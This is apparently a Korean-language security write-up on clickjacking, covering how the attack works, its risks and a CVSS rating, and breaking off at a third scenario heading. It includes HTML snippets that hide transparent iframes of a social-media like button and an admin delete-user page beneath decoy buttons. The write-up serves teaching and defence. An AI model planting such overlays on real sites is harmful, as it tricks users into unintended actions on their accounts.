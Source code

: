 # Clickjacking (클릭재킹) 취약점 분석

## 📋 취약점 개요

**Clickjacking**은 사용자가 의도하지 않은 행동을 하도록 유도하는 공격 기법입니다. 공격자는 투명하거나 숨겨진 레이어를 사용하여 사용자를 속이고, 사용자가 다른 웹사이트나 애플리케이션의 요소를 클릭하도록 만듭니다.

### 🎯 공격 원리

1. **레이어 오버레이**: 악의적인 페이지 위에 투명한 iframe을 배치
2. **시각적 속임수**: 사용자에게는 다른 버튼이나 링크로 보이도록 조작
3. **의도하지 않은 클릭**: 사용자가 실제로는 숨겨진 요소를 클릭하게 됨

### 🔍 주요 위험성

- **CVSS 점수**: 4.3 (Medium)
- **무단 작업 수행**: 사용자 모르게 중요한 작업 실행
- **계정 탈취**: 로그인 정보나 개인정보 노출
- **피싱 공격**: 사용자를 속여 악성 사이트로 유도

## 🚨 공격 시나리오

### 시나리오 1: 소셜 미디어 버튼 조작

```html
<!-- 악의적인 페이지 -->
<div style="position: relative;">
    <button style="z-index: 1;">무료 다운로드</button>
    
    <!-- 숨겨진 소셜 미디어 버튼 -->
    <iframe src="https://facebook.com/like-button" 
            style="position: absolute; top: 0; left: 0; 
                   opacity: 0; z-index: 2;"></iframe>
</div>
```

### 시나리오 2: 관리자 페이지 조작

```html
<!-- 투명한 관리자 패널 -->
<iframe src="https://admin.example.com/delete-user" 
        style="opacity: 0; position: absolute; 
               top: 100px; left: 200px; 
               width: 300px; height: 200px;"></iframe>

<div style="position: relative; top: 150px; left: 250px;">
    <button>상품 보기</button>
</div>
```

### 시나리오 3: 결제 페이지 조작
